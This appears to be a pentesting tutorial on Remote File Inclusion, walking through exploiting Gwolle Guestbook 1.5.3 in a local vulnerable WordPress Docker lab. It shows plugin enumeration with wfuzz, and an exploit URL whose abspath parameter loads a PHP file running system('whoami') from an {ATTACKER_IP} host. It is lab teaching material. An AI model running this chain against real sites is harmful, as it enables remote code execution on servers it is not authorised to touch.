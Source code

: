The Remote File Inclusion (RFI) vulnerability is a security vulnerability where an attacker can include remote files in a vulnerable web application. This can allow the attacker to execute malicious code on the web server and compromise the system.

In an RFI attack, the attacker uses user input, such as a URL or form field, to include a remote file in the request. If the web application does not properly validate these inputs, it will process the request and return the contents of the remote file to the attacker.

An attacker can use this vulnerability to include malicious remote files containing malicious code, such as viruses or Trojans, or to execute commands on the vulnerable server. In some cases, the attacker can direct the request to a PHP resource hosted on a server they own, giving them a greater degree of control in the attack.

# Example

----
> The source to test the example below can be found here: [dvwp](https://github.com/vavkamil/dvwp).
> The [[WordPress]] plugin can be found here: [Gwolle Guestbook](https://es.wordpress.org/plugins/gwolle-gb/).
----

First of all, we are going to download and configure the *WordPress* example into [[Docker]]. We can check that the port occupied by *WordPress* is 31337, so go there and finish the setup.

Once configured, let's download *Gwolle* version 1.5.3. To do this we go to the download web page and replace the current version with the desired one. 

If we try to add the plugin to *WordPress* it will give us a write permission error on the wp-content folder. To fix this we need to go into the *Docker* container and change the owner of the folder to www-data:

```bash
docker exec -it dvwp_wordpress_1 bash

# We give permissions to the wp-content folder recursively
chown www-data:www-data -R wp-content/
```

This time if we try to activate the plugin it will not give us any error.

To be able to see as an attacker the plugins that are installed in *WordPress*, we can use the wfuzz tool with a [SecLists](https://github.com/danielmiessler/SecLists) dictionary:

```bash
# In this case we will use the colorized mode (-c) hiding 404 status codes and using 200 threads to launch 200 tasks using a dictionary
wfuzz -c --hc=404 -t200 -w SecLists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt http://localhost:31337/FUZZ
```

We have seen that there is indeed a plugin called *Gwolle*, so we can search for its version and see if there is any vulnerability in *searchsploit*:

```bash
searchsploit gwolle
```

We can see that there is indeed a vulnerability for this version of *Gwolle* that allows *Remote File Inclusion*. Let's open the source code of the vulnerability to see how to exploit it:

```bash
searchsploit -x php/webapps/38861.txt
```

We see that the way to execute this script is by referring to the GET *abspath* parameter, so if we create a local file *wp-load.php* and load it remotely from the abspath parameter sharing it with Python, we could execute commands remotely.

```
http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]
```

We also see that in order to exploit this vulnerability, *allow_url_include* must be enabled, so we must enable it in the php.ini of our container :

```ini
allow_url_include = "on"
```

Finally we must restart the Docker container to apply the changes:

```bash
docker restart dvwp_wordpress_1
```

In principle we should already have everything ready to exploit the vulnerability, so we are going to create the file *wp-load.php* and share it with an HTTP server in Python. The PHP file can include for example the following:

```php
<?php
	system("whoami");
?>
```

Podemos ejecutar el PHP creado anteriormente de la siguiente manera:

```
python3 -m http.server 80

http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://{ATTACKER_IP}/
```

If everything went well we should be able to see the output in the browser.